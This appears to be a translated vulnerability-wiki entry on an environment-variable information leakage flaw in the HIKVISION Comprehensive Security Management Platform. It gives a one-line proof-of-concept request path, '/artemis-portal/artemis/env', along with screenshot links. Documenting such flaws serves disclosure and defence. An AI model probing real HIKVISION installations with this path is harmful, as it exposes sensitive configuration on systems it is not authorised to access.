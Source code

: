 # HiKVISION Comprehensive Security Management Platform env Information Leakage Vulnerability

## Vulnerability Description

There is information leakage vulnerability in the HIKVISION comprehensive security management platform. Through the vulnerability, attackers can obtain sensitive messages such as environmental envs and further attack.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">HIKVISION Comprehensive Security Management Platform</span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1647517887798-06e24b68-d89a-4223-aee3-50ca22081807-1646007.png)

Verify POC

```javascript
/artemis-portal/artemis/env 
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1679555425852-b9369d03-d3e3-42dc-af4c-f4140ccfbba6.png)